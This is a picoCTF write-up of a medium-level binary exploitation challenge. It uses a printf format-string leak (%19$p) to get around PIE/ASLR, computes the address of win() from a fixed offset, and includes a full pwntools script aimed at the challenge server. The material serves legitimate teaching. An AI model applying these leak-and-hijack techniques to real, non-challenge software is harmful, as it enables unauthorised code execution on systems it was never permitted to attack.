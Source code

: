 >> Write-up — PIE TIME 2 (picoCTF)

**Challenge:** rescued-float — PIE / info-leak

**Category:** Binary Exploitation — PIE / ASLR bypass via info leak

**Author:** NIGHTFURY0X01 (Arash)

**Level:** Medium


### Summary: 

+ This challenge contained a small 64-bit PIE binary (`vuln`) with a format-string bug and a simple function `win()` that prints the flag. Because the binary is position-independent (PIE/ASLR), function addresses are randomized each run — so we must leak a runtime address from the same process and compute `win()`’s runtime address from that leak. We exploited the format-string vulnerability (`printf(buffer)`) to leak a pointer, used a fixed offset (extracted from the local binary) to compute `win()`’s address, then passed that address to the program which calls it as a function pointer — producing the flag.

### Vulnerability

+ In `call_functions()` the code does:
```c
fgets(buffer, 64, stdin);
printf(buffer);
```

+ Passing user data directly as the `printf` format string creates a format-string vulnerability: the attacker can supply `%p`/`%19$p` to print stack/call-context pointers. The program then does:

```c
scanf("%lx", &val);
void (*foo)(void) = (void (*)())val;
foo();
```

+ So if we can compute the runtime address of `win()` for the current process, we can simply input that address and have the program call `win()`.

---

### Key idea / exploitation plan

1) Disassemble the local binary to find the offsets between known code locations:
+ find the offset of `main` and `win` or the offset between the leaked return address and `win`.

2) Connect to the remote service and use the format-string (`%19$p`) to leak a runtime pointer that sits inside the binary image (this gives us a value of the form `base + constant`).

3) Use the offset from step (1) to convert the leaked pointer into the runtime address of `win()`:

```ini
win_addr = leaked - OFFSET_SUB
```

+ (In this challenge the required subtraction was 0xd7 in hex; that value comes from disassembly of the local `vuln`.)

4) Send the computed `win_addr` to the service. The program casts that value to a function pointer and calls it. If the calculation is correct, `win()` runs and prints the flag.

---

### How the offsets were obtained (short)

Run `objdump -d vuln` (local binary) and locate `<main>` and `<win>` addresses. From the disassembly we deduced the constant difference needed to convert the leaked pointer to the `win()` address. In our runs that constant was `0xd7` (decimal 215), so `target = leaked - 0xd7`.

> Important: you must get these offsets from the same binary file that the server runs. If offsets differ, your calculation will be wrong and the program will segfault.

--- 

### Example manual session

+ Connect:
```bash
$ nc rescued-float.picoctf.net <Random Port> #Example: 54102
Enter your name:
```
![Step 1](images/1.png)

+ Leak:
```perl
%19$p
0x5773bde75441
```

+ Compute target (`leaked - 0xd7`):
```python
python3 - <<'PY'
print(hex(int("0x5773bde75441",16) - 0xd7))
PY
# => 0x5773bde7536a
```

+ Paste the computed value when the program asks for the address:
```bash
0x5773bde7536a
```

+ Program prints:
```bash
You won!
picoCTF{...}
```

---

### Automated Python exploit

+ The following pwntools script automates the steps: it connects, leaks with %19$p, parses the leak, computes win() as leaked - OFFSET_SUB, sends the address, and prints the service output. Change OFFSET_SUB if your local disassembly yields a different value.

```python
#!/usr/bin/env python3
# exploit_auto.py — Automatic: leak -> compute -> jump to win()
from pwn import *
import re
import sys

if len(sys.argv) < 2:
    print("Usage: python3 exploit_auto.py <port>")
    sys.exit(1)

HOST = "rescued-float.picoctf.net"
PORT = int(sys.argv[1])

# If your local offset differs, change this value.
# This value was derived from the local disassembly (leaked_value - win_address).
OFFSET_SUB = 0xd7  # 0xd7 = 215 decimal

context.log_level = "info"
context.timeout = 6

def exploit_once():
    try:
        p = remote(HOST, PORT, timeout=6)
    except Exception as e:
        print("[!] Could not connect:", e)
        return False

    # Wait for the name prompt
    try:
        p.recvuntil(b"Enter your name:", timeout=4)
    except Exception:
        pass

    # Leak using the tested index (%19$p)
    p.sendline(b"%19$p")

    # Read until the next ":" prompt or a short timeout
    data = b""
    try:
        data = p.recvuntil(b":", timeout=3)
    except Exception:
        try:
            data = p.recv(timeout=2)
        except Exception:
            pass

    print("Leaked snippet:", data.decode(errors="ignore"))

    m = re.search(rb'0x[0-9a-fA-F]+', data)
    if not m:
        print("[!] No leak found — the index may be different.")
        p.close()
        return False

    leaked = int(m.group(0), 16)
    print(f"[+] leaked = {hex(leaked)}")

    # Compute the win() address for this run
    target = leaked - OFFSET_SUB
    print(f"[+] Calculated win target = {hex(target)}")

    # Ensure we've consumed the address prompt (if not already)
    try:
        p.recvuntil(b":", timeout=2)
    except Exception:
        pass

    # Send the computed address
    p.sendline(hex(target).encode())

    # Read output (flag or segfault message)
    try:
        out = p.recvall(timeout=4)
    except Exception:
        out = b""

    if out:
        print("=== Service output ===")
        print(out.decode(errors="ignore"))
        s = out.decode(errors="ignore").lower()
        if "you won" in s or "picoctf" in s or "flag" in s:
            print("[+] Likely got the FLAG.")
            p.close()
            return True
    else:
        print("[*] No output received (the service may have closed).")

    p.close()
    return False

if __name__ == "__main__":
    ok = exploit_once()
    if not ok:
        print("[!] Attempt finished but did not succeed. Try again (each new session requires a fresh leak).")
```

### Usage:

+ Save as `exploit_auto.py`.

+ Install pwntools if needed: `pip install pwntools`.

+ Run:
```bash
python exploit_auto.py 59006
```
+ (replace `59006` with the challenge port if different)


![Step 2](images/2.png)